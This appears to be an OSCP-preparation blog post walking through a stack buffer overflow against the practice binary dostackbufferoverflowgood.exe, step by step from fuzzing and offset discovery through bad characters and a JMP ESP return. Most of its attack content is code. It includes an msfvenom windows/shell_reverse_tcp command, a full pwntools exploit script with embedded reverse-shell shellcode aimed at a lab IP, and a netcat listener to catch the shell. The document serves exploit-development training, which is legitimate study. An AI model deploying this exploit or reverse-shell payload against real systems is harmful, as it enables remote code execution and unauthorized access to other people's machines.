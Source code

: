 ```yaml
---
layout: post
title:  "What is stack bufferoverflow? And steps to be followed to smash it!(dostackbufferoverflowgood)"
date:   2020-02-05 08:07:19
categories: [buffer-overflow,oscp-prep]
comments: true
---
```



To demonstrate binary used is dostackbufferoverflowgood.exe

## Steps to be followed for smashing stack bufferoverflow

Fuzzing --> finding offset --> Finding bad character --> RET to 'JMP ESP' --> Generating shell code

<!--more->
#### Step 1: Fuzzing

In this step, we just need to find the buffer length or offset which crash the application and overwrite the EIP.

```python
from pwn import *
p = connect('192.168.1.8', 31337, level='error')
p.sendline('A'*1000)
p.recvline()
p.close()
```

#### Step 2: Finding the exact offset

Add working folder in mona:

`!mona config -set workingfolder C:\logs\%p`

In immunity debugger,

`!mona pc 1000` --> This will create a pattern of 1000 bytes

> **Tip:** Also remember sometimes pattern shown in the immunity debugger console may be truncated. So always copy from the log


Modify the python code
```python
from pwn import *
pattern = "" # update the pattern here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(pattern)
p.recvline()
p.close()
```

After executing the python script take the EIP value and execute the following command to find the exact offset:

`!mona findmsp <EIP VALUE>` (or)
`!mona pattern_offset <EIP VALUE>`


#### Step 3: Finding bad characters

To find badcharacter, first we need to create bytearray.

`!mona bytearray` --> This will generate the byte array starting from \x00 to \xff

Modify the python code 

```python
from pwn import *

offset = "A"*<offset_value> # Replace the <offset_value> with the offset value that we obtained from Step 2
bytearray = "" # update the bytearray here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + 'BBBB' + bytearray)
p.recvline()
p.close()
```

Execute the python script

Compare the generated bytearray and bytearray after the BBBB end in the exe file using mona.

!mona compare -f C:\logs\dobufferoverflowgood\bytearray.bin -a <address_after_BBBB>

Now this will display the badcharacter.

> **TIP**: \x00 will always be the bad character. Some times if the program requires some special character like new-line feed('\n'), then the corresponding hex value will also be added to the badcharacter list.

#### Step 4: "RET to JMP ESP"

This step is important to control the flow of the program. We need to find the `JMP ESP ` statement in the program and also its address should not contain the bad characters.

`!mona jmp -r esp -cpb "\x00\x0A" ` (or)

`msf-nasm_shell` and find the hex value of `JMP ESP` which is `\xff\xe4`

Then execute the command
`!mona find "\xff\xe4" -m <your.exe>`

Add the value in little endianess format to the python program .


#### Step 5: Generating the shell code

This is the final step. Use msfvenom to generate shell code.

`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c -a x86 -b "\x00\x0A"`

So our final python program look like this

```python
from pwn import *

#offset = 146
#badchar = \x00\x0a
#jmpesp = 080414c3
nops = "\x90"
offset = "A"*146

shellcode = (
"\xba\x84\xf5\xee\x0c\xda\xd9\xd9\x74\x24\xf4\x5f\x29\xc9\xb1"
"\x52\x83\xc7\x04\x31\x57\x0e\x03\xd3\xfb\x0c\xf9\x27\xeb\x53"
"\x02\xd7\xec\x33\x8a\x32\xdd\x73\xe8\x37\x4e\x44\x7a\x15\x63"
"\x2f\x2e\x8d\xf0\x5d\xe7\xa2\xb1\xe8\xd1\x8d\x42\x40\x21\x8c"
"\xc0\x9b\x76\x6e\xf8\x53\x8b\x6f\x3d\x89\x66\x3d\x96\xc5\xd5"
"\xd1\x93\x90\xe5\x5a\xef\x35\x6e\xbf\xb8\x34\x5f\x6e\xb2\x6e"
"\x7f\x91\x17\x1b\x36\x89\x74\x26\x80\x22\x4e\xdc\x13\xe2\x9e"
"\x1d\xbf\xcb\x2e\xec\xc1\x0c\x88\x0f\xb4\x64\xea\xb2\xcf\xb3"
"\x90\x68\x45\x27\x32\xfa\xfd\x83\xc2\x2f\x9b\x40\xc8\x84\xef"
"\x0e\xcd\x1b\x23\x25\xe9\x90\xc2\xe9\x7b\xe2\xe0\x2d\x27\xb0"
"\x89\x74\x8d\x17\xb5\x66\x6e\xc7\x13\xed\x83\x1c\x2e\xac\xcb"
"\xd1\x03\x4e\x0c\x7e\x13\x3d\x3e\x21\x8f\xa9\x72\xaa\x09\x2e"
"\x74\x81\xee\xa0\x8b\x2a\x0f\xe9\x4f\x7e\x5f\x81\x66\xff\x34"
"\x51\x86\x2a\x9a\x01\x28\x85\x5b\xf1\x88\x75\x34\x1b\x07\xa9"
"\x24\x24\xcd\xc2\xcf\xdf\x86\x2c\xa7\xde\x50\xc5\xba\xe0\x4d"
"\x49\x32\x06\x07\x61\x12\x91\xb0\x18\x3f\x69\x20\xe4\x95\x14"
"\x62\x6e\x1a\xe9\x2d\x87\x57\xf9\xda\x67\x22\xa3\x4d\x77\x98"
"\xcb\x12\xea\x47\x0b\x5c\x17\xd0\x5c\x09\xe9\x29\x08\xa7\x50"
"\x80\x2e\x3a\x04\xeb\xea\xe1\xf5\xf2\xf3\x64\x41\xd1\xe3\xb0"
"\x4a\x5d\x57\x6d\x1d\x0b\x01\xcb\xf7\xfd\xfb\x85\xa4\x57\x6b"
"\x53\x87\x67\xed\x5c\xc2\x11\x11\xec\xbb\x67\x2e\xc1\x2b\x60"
"\x57\x3f\xcc\x8f\x82\xfb\xec\x6d\x06\xf6\x84\x2b\xc3\xbb\xc8"
"\xcb\x3e\xff\xf4\x4f\xca\x80\x02\x4f\xbf\x85\x4f\xd7\x2c\xf4"
"\xc0\xb2\x52\xab\xe1\x96"
)
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + '\xc3\x14\x04\x08' + nops*20 + shellcode)
p.recvline()

#print('Byte sent ',length)
p.close()
```

Spawn a listner to get shell of the victim machine

`nc -nlvp 4444`



